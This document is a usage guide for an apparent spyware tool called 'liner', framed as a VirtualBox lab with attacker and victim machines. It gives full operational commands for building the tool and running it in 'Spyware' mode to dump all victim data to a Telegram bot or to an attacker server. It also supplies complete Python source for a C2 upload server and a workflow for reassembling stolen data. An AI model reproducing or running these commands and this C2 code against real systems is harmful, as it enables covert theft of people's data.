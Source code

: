 ## Liner Usage Guide for Data Exfiltration

This guide provides step-by-step instructions for using the liner tool in a lab environment to perform data exfiltration via Telegram or a custom server. The setup assumes the host machine as the attacker and a VirtualBox virtual machine (VM) as the victim.

---

### Prerequisites

Host Machine (Attacker): Ubuntu/Debian with Python 3 installed.  
Virtual Machine (Victim): Ubuntu/Debian with Go 1.24.5 installed.  
Network: VirtualBox VM set to NAT (default, with attacker IP 10.0.2.15) or Host-Only (e.g., 192.168.56.101).  
Telegram (optional): A Telegram bot token and chat ID for Telegram-based exfiltration.

---

### Setup Instructions

1. Install Go 1.24.5 on the Victim VM

### Remove any existing Go installations:
```
sudo apt remove --purge golang golang-* go
sudo rm -rf /usr/lib/go* /usr/bin/go /usr/local/go ~/.go ~/go
```
### Install Go 1.24.5:
```
wget https://go.dev/dl/go1.24.5.linux-amd64.tar.gz
sudo tar -C /usr/local -xzf go1.24.5.linux-amd64.tar.gz
```
### Update ~/.bashrc:
```
nano ~/.bashrc
```
### Add these lines at the end:
```
export PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
export GOROOT=/usr/local/go
export GOPATH=$HOME/go
export PATH=$PATH:$GOPATH/bin
```
### Apply changes:
```
source ~/.bashrc
```
### Verify Go installation:
```
go version
```
### Expected output: go version go1.24.5 linux/amd64.

---

2. Build Liner on the Victim VM

### Navigate to the project directory:
```
cd ~/Desktop/liner
```
### Initialize and tidy Go modules:
```
rm -rf go.mod go.sum
go mod init liner
go mod tidy
```
### Build the tool:
```
go build -v -mod=mod -o liner ./cmd
sudo mv liner /usr/bin
sudo chmod +x /usr/bin/liner
```
---

### Exfiltration Modes

#### Option 1: Exfiltration via Telegram

Setup Telegram Bot:
- Create a Telegram bot using BotFather.
- Get bot token and chat ID.

Run Liner with Telegram:
```
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no
```
Example:
```
sudo liner --mode Spyware --dump all --telegram --token 123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11 --id 123456789 --encryption no
```
###### Check your Telegram chat for received data.

---

#### Option 2: Exfiltration via Custom Server

Setup Python Server on Attacker (Host Machine):
```
mkdir ~/c2
cd ~/c2
```
Create c2_server.py:
```python
import http.server
import socketserver
import os

PORT = 8080
UPLOAD_DIR = "uploads"

if not os.path.exists(UPLOAD_DIR):
    os.makedirs(UPLOAD_DIR)

class UploadHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        body = self.rfile.read(content_length).decode('utf-8')
        if self.path == '/message':
            self.send_response(200)
            self.send_header('Content-type', 'text/plain')
            self.end_headers()
            self.wfile.write(b'Message received')
            with open(os.path.join(UPLOAD_DIR, f'part_{len(os.listdir(UPLOAD_DIR))}.txt'), 'w') as f:
                f.write(body)
        else:
            self.send_response(404)
            self.end_headers()

with socketserver.TCPServer(("", PORT), UploadHandler) as httpd:
    print(f"Serving at port {PORT}")
    httpd.serve_forever()
```

Run server:
```
python3 c2_server.py
```
Configure Network:
- NAT Mode (default): Test with curl
- Host-Only Mode: Switch VM, test connectivity

Allow port:
```
sudo ufw allow 8080
```
Run Liner with Server:
```
sudo liner --mode Spyware --dump all --server <ATTACKER_IP> --port 8080 --encryption no
```
Test Server Exfiltration:
```
ls ~/c2/uploads
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### Troubleshooting

Build Issues:
- Verify Go version: go version
- Rebuild if needed

Network Issues:
- Ensure server is running
- Test with curl
- Switch to Host-Only if NAT fails

Telegram Issues:
- Verify bot token & chat ID
- Ensure chat is active

Flag Errors:
- Use -- not - for flags

---

### Example Workflow

Attacker (Host):
```
cd ~/c2 && python3 c2_server.py
curl -X POST -d "message=test" http://127.0.0.1:8080/message
```
Victim (VM):
```
cd ~/Desktop/liner && go build -v -mod=mod -o liner ./cmd
sudo liner --mode Spyware --dump all --server 10.0.2.15 --port 8080 --encryption no
```
Verify:
```
ls ~/c2/uploads
cat part_* > liner_data.zip && unzip liner_data.zip
```
For Telegram:
```
sudo liner --mode Spyware --dump all --telegram --token <BOT_TOKEN> --id <CHAT_ID> --encryption no
```
Check Telegram chat for data.
